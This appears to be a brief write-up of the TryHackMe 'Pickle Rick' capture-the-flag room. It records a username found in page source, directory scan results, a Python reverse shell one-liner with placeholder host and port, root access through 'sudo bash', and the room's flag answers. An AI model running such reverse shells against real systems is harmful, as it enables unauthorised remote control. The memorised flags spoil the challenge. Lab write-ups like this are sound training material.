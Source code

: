 # Pickle Rick | TryHackMe
> Blue Cosmo | 07/12/21

# Task 1
1. What is the first ingredient Rick needs?

view source to find
```
Username: R1ckRul3s
```
run directory scan to find robots.txt and login.php
```
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)

robots.txt - Wubbalubbadubdub
```
login to 'login.php'
```
grep . FILENAME
mr. meeseek hair
```

2. What is the second ingredient Rick needs?
```
export RHOST="YOURIP";export RPORT=YOURPORT;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
navigate to ricks home directory
```
1 jerry tear
```
3. What is the final ingredient Rick needs?
```
$ sudo bash
cd /root
fleeb juice
```
